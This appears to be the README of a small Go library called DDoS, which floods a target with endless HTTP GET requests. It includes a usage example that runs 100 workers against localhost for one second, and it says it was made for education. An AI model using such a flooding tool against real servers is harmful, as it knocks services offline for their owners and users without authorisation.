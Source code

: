 # DDoS

[![Coverage Status](https://coveralls.io/repos/github/Konstantin8105/DDoS/badge.svg?branch=master)](https://coveralls.io/github/Konstantin8105/DDoS?branch=master)
[![Build Status](https://travis-ci.org/Konstantin8105/DDoS.svg?branch=master)](https://travis-ci.org/Konstantin8105/DDoS)
[![Go Report Card](https://goreportcard.com/badge/github.com/Konstantin8105/DDoS)](https://goreportcard.com/report/github.com/Konstantin8105/DDoS)
[![GitHub license](https://img.shields.io/badge/license-MIT-blue.svg)](https://github.com/Konstantin8105/DDoS/blob/master/LICENSE)
[![GoDoc](https://godoc.org/github.com/Konstantin8105/DDoS?status.svg)](https://godoc.org/github.com/Konstantin8105/DDoS)

DDoS attack. Creating infinite http GET requests.
If you need more information, then please see [wiki](https://en.wikipedia.org/wiki/Denial-of-service_attack#Defense_techniques).

**Library created just for education task.**

Minimal example of using:

```golang
func main() {
	workers := 100
	d, err := ddos.New("http://127.0.0.1:80", workers)
	if err != nil {
		panic(err)
	}
	d.Run()
	time.Sleep(time.Second)
	d.Stop()
	fmt.Println("DDoS attack server: http://127.0.0.1:80")
	// Output: DDoS attack server: http://127.0.0.1:80
}
```
